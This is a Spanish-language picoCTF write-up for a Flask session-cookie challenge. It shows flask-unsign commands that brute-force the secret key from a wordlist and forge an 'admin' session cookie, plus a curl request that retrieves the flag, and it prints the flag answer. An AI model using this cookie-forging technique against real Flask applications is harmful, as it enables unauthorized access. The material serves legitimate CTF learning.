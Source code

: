 ## Descripción 
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/1e4bd835ad3e7fe776d49e7b8cc280c1/server.py) [http://mercury.picoctf.net:35697/](http://mercury.picoctf.net:35697/)

Hint:
1. How secure is a flask cookie?
## Solución 1

Abrimos el archivo python y nos damos cuenta que vamos a tener que usar un ataque de diccionario para sacar un secret y ponerlo en la cookie. Primero entramos al sitio y ponemos snickerdoodle y sacamos la cookie, después vamos al archivo python y sacamos las palabras que tenemos para sacar el wordlist, hacemos un archivo con esas palabras y sacamos el secret, hacemos un flask-unsign y obtenemos la bandera 

```
Cookie: eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z-95oQ.6rH5_27F5cN77C1GyO2NMXylytA

Creamos archivo cookies.txt con las pabalbras a crackear

descargamos flask-unsign y proseguimos con los comandos

┌──(.venv)─(kali㉿kali)-[~]
└─$ flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z-9vug.on97vOS-9SVpV7Ey9jjwz9ojpBk" --wordlist cookies.txt
[*] Session decodes to: {'very_auth': 'snickerdoodle'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'peanut butter'

Con el comando anterior usamos las wordlists para saber cual es nuestra clave secreta 

┌──(.venv)─(kali㉿kali)-[~]
└─$ flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret "peanut butter"
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z-95oQ.6rH5_27F5cN77C1GyO2NMXylytA

Con el comando anterior metemos la cookie inicial con el secret "peanut butter"

┌──(.venv)─(kali㉿kali)-[~]
└─$ curl -s http://mercury.picoctf.net:35697/display -H "Cookie: session= eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z-95oQ.6rH5_27F5cN77C1GyO2NMXylytA" | grep pico
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{pwn_4ll_th3_cook1E5_22fe0842}</code></p>

Y con este útlimo hacemos un curl y un grep para sacar la bandera 

flag: picoCTF{pwn_4ll_th3_cook1E5_22fe0842}
```
